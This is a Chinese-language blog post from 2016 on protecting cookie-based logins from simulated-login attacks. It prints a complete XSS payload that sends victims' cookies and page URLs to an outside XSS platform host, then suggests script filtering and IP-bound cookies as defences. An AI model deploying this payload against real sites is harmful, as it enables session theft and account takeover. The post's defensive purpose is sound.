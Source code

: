 ```yaml
---
title: cookie存储用户信息安全防范（防止模拟登录）
tags:
  - cookie存储用户信息安全防范
  - cookie防止模拟登录
id: 2273
categories:
  - JS/Jq
date: 2016-04-07 09:50:01
---
```


一般的菜鸟只知道把用户信息保存到Cookie即可，登录只管判断Cookie是否存在，凭借着cookie值的存在情况来判断用户是否登录，更有一些甚至把用户密码也保存在Cookie中，这是极其危险的，人家要搞你分分钟可以模拟你的Cookie来登录你的用户，做一些危险的事情。

**1、攻击者怎么拿到你的登录的Cookie值。**

现在各种攻击技术，目前我只了解XSS攻击方式，做过一个XSS攻击的测试，他在一网站里面发布了一篇博客，里面嵌入了XSS攻击脚步，脚步代码如下：
```javascript
(function() { (new Image()).src = 'http://xss.sssie.com/index.php?do=api&amp;id=RQTPpx&amp;location=' + escape((function() {
try {
return document.location.href
} catch(e) {
return ''
}
})()) + '&amp;toplocation=' + escape((function() {
try {
return top.location.href
} catch(e) {
return ''
}
})()) + '&amp;cookie=' + escape((function() {
try {
return document.cookie
} catch(e) {
return ''
}
})()) + '&amp;opener=' + escape((function() {
try {
return (window.opener &amp;&amp; window.opener.location.href) ? window.opener.location.href: ''
} catch(e) {
return ''
}
})());
})();
if ('' == 1) {
keep = new Image();
keep.src = 'http://xss.sssie.com/index.php?do=keepsession&amp;id=RQTPpx&amp;url=' + escape(document.location) + '&amp;cookie=' + escape(document.cookie)
};
```

这段代码，是通过第三方XSS平台来的，不过目前有许多的免费XSS平台，自己也可以搭建一个。

通过嵌入以上脚步，只要用户登录了自己的帐号，一旦浏览了攻击者发布的博客，即攻击成功，XSS第三方平台里面发送有关我登录的Cookie 给攻击者，这样你登录的Cookie值立马给窃取，是不是很危险呢？

**2、攻击者模拟Cookie登录**

做过后台开发的人都知道怎么模拟Cookie信息去登录，除非是菜鸟，这个我就不多说了，

不过不会后台开发的人，会使用一些工具，比如Fiddler 就很容易把Cookie信息模拟登录了，这里就不一一讲述实现过程了

仅仅通过简单的模拟用户的Cookie就可以分分种使用你的帐号登录了，并做一些危险的动作，比如删除你的东西，以及更多危险的操作。

到了这里是不是觉得很危险？接下来我来讲述怎么防止这种模拟

以下讲述两点防止的方法：

**1、网站本身做一些脚步拦截，以及脚步检验工作**

比如web站点使用过富文本，一般富文本默认都会对脚本进行拦截，但是有些需要是需要开启这个用户引用脚步的，针对这些就的对用户输入引用的脚本做安全的验证工作，检查风险性，对于风险脚步进行拦截处理，不让提交等。这样就可以在用户输入层避免了XSS攻击的来源了**
**

**2、Cookie层本身做正确性校验**

后台判断是否登录做严格的验证校验工作，不仅仅只判断Cookie是否存在，而要做严格的正确性验证，这里我提供以下IP校验的方式来验证是否是有效登录。

可以把用户请求的IP值和用户的唯一ID做一个特殊加密处理，这样Cookie信息中包含了用户登录的IP地址，这是很多大型网站都是这样做的安全登录，大家应该见过一些金融产品，如果换了一个网络，是不是提示要重新登录呢？这就是根据IP地址校验来防止攻击。

Cookie值中保存了用户的IP值，这样每次登录的时候判断IP地址和当前请求的IP地址是否一致，如果一致则通过验证，IP不一致则说明是异常登录，验证不通过。

总结：目前Cookie模拟登录安全防范就已经完结了，谢谢大家的支持，